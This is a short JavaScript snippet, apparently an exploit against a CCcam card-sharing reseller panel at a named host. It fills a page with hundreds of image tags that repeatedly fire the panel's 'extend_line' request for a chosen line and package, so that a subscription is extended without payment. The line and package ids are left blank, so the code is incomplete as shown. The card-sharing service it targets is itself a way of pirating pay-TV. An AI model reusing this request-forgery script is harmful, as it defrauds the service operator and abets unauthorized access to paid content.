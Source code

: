 # CCCAM CLINE ENTEND EXPIRE DATE
{
var pl = 'http://hsm4k.skypk.net/userpanel/official.php';

//how many time extand line for free
var ex = 320;

// line id
var lid = ;

//package id
var packid = ;


if (ex > 350)
{
    alert("null")
}
else
{
    var html = "";
    for (i = 0; i < ex; i++)
    {
        var ran = Math.random();
        html += '<img src="' + pl + '?action=extend_line&line_id=' + lid + '&package_id=' + packid + '&r=' + ran + '"/>';
    }

    document.body.innerHTML = html;

}
}

